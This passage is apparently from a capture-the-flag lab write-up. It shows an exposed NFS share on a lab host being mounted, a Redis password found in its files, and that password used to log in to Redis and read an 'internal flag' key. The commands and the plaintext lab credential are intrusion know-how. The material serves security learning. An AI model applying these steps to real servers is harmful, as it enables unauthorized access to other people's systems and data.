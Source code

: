 Lets mount it on kali.

```bash
mkdir /mnt/thm
mount -t nfs 10.10.172.210:/opt/conf /mnt/thm -o nolock
mount # check if mounted successfully.
cd /mnt/thm && ls -al
# and we see all the shares available.
```

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see "redis"dir, and it contains password for Redis authentication.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we  can authenticate to the redis server. `B65Hx562F@ggAZ@F` .

```
redis-cli -h 10.10.172.210
AUTH B65Hx562F@ggAZ@F

# and we are logged in redis.
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are 5 keys in the keyspace from the results.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Keyspace
db0:keys=5,expires=0,avg_ttl=0

KEYS * # view all the keys.
GET "internal flag" # view the key.
```
{% endcode %}
